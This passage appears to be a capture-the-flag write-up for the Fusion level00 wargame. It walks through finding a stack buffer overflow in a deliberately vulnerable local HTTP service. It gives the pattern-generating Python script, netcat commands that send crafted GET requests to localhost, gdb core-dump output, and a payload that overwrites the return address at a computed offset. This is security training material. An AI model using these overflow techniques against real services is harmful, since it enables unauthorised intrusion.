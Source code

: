 \begin{lstlisting}
buf = []
for i in range(0x41,0x4c):
			buf.append(chr(i)*20)
			print ''.join(buf)
\end{lstlisting}

Using the pre-3.0 python on fusion, we take 20 copies of the first
10 letters each, and append them all together. This gives a nice, 
simple buffer we can just copy/paste:
\begin{lstlisting}
fusion@fusion:~/level00\$ python buf.py 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGGGGGHHHHHHHHHHHHHHHHHHHHIIIIIIIIIIIIIIIIIIIIJJJJJJJJJJJJJJJJJJJJKKKKKKKKKKKKKKKKKKKK
\end{lstlisting}

So, testing is as simple as sending a properly formatted buffer with netcat,
and examining the core dump \texttt{/core}. If this file exists already,
you should delete it with \texttt{rm} before making another. Of course, we'll
also want to execute \texttt{ulimit -c unilimited} to allow coredumps unilmited
in size

\begin{lstlisting}
fusion@fusion:~/level00\$ nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
GET AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGGGGGHHHHHHHHHHHHHHHHHHHHIIIIIIIIIIIIIIIIIIIIJJJJJJJJJJJJJJJJJJJJKKKKKKKKKKKKKKKKKKKK HTTP/1.1
fusion@fusion:~/level00\$ sudo gdb -q --core /core
[New LWP 3042]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x48484847 in ?? ()
\end{lstlisting}

Excellent! the return pointer happened to be directly on a boundary.
Remembering how the buffer was crafted (increasing order), and the
little-endianness of our intel machine, then we know that
the return address is directly where ``\texttt{GHHH}" is in our buffer.
To further verify this, we can craft another buffer with a specific value where
we expect the return pointer to be, send it to the server, then check
the coredump. Remember that we'll need to remove the coredump \texttt{/core}
before crashing the program again, as otherwise it won't be overwritten.

\begin{lstlisting}
fusion@fusion:~\$ sudo rm /core
fusion@fusion:~\$ python -c 'print "GET " + "A"*139 + "\xf3\xf2\xf1\xf0" + " HTTP/1.1\n"' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
\end{lstlisting}

